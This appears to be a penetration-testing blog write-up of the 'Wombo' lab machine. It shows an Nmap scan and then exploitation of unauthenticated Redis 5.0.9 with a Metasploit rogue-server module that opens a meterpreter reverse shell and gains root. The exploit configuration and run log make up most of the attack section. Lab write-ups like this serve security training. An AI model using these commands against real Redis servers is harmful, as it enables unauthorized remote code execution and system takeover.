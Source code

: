 ```yaml
---
layout: post
title: PG | Wombo
subtitle: Wombo is full of the freshest hipster tech around.
thumbnail-img: OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 10:17 UTC
Nmap scan report for 192.168.182.69
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
53/tcp    closed domain
80/tcp    open   http       nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
6379/tcp  open   redis      Redis key-value store 5.0.9
8080/tcp  open   http-proxy
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
27017/tcp open   mongodb    MongoDB
| mongodb-info: 
|   MongoDB Build info
|     allocator = tcmalloc
|     ok = 1.0
|     storageEngines
|       1 = ephemeralForTest
|       2 = mmapv1
|       3 = wiredTiger
|       0 = devnull

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.71 seconds
~~~

## HTTP (TCP/80)

An Nginx web server is running on port 80

![Wombo](/assets/img/WomboPG(1).png)

I ran a gobuster sub-directory scan and nothing came back so moved onto the next port for enumeration

![Wombo](/assets/img/WomboPG(2).png)

## Redis (TCP/6379)

A Redis database runing version 5.0.9 is being hosted on port 6379, a quick vulnerability search using searchsploit revealed an Unauthenticated Code Execution ([Metasploit 47195.rb](https://www.exploit-db.com/exploits/47195)), there is also a python version of the same exploit [here](https://github.com/Ridter/redis-rce)

![Wombo](/assets/img/WomboPG(3).png)

I started by transferring the exploit from ExploitDB to my metasploit modules
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ sudo cp /usr/share/exploitdb/exploits/linux/remote/47195.rb /usr/share/metasploit-framework/modules/exploits/linux/redis
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ msfconsole -m /usr/share/metasploit-framework/modules/

msf6 > loadpath /usr/share/metasploit-framework/modules/

msf6 > reload_all
~~~
I loaded the Metasploit module for the Redis exploit

![Wombo](/assets/img/WomboPG(4).png)

Set the configuration options to match the target and our attack machine for the shell
~~~shell
msf6 exploit(linux/redis/47195) > show options

Module options (exploit/linux/redis/47195):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CUSTOM    true             yes       Whether compile payload file during exploiting
   PASSWORD  foobared         no        Redis password for authentication test
   RHOSTS    192.168.182.69   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6379             yes       The target port (TCP)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.45.185   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                       ses.
   SRVPORT  6379             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.45.185   yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
~~~
Run the Exploit and we have a root shell!
~~~shell
msf6 exploit(linux/redis/47195) > run

[*] Started reverse TCP handler on 192.168.45.185:8080 
[*] 192.168.182.69:6379   - Compile redis module extension file
[+] 192.168.182.69:6379   - Payload generated successfully! 
[*] 192.168.182.69:6379   - Listening on 192.168.45.185:6379
[*] 192.168.182.69:6379   - Rogue server close...
[*] 192.168.182.69:6379   - Sending command to trigger payload.
[*] Sending stage (3045380 bytes) to 192.168.182.69
[*] Meterpreter session 2 opened (192.168.45.185:8080 -> 192.168.182.69:49978) at 2023-10-29 14:34:30 +0000
[!] 192.168.182.69:6379   - This exploit may require manual cleanup of './fhgevb.so' on the target

meterpreter > shell
Process 1250 created.
Channel 1 created.
whoami
root
~~~
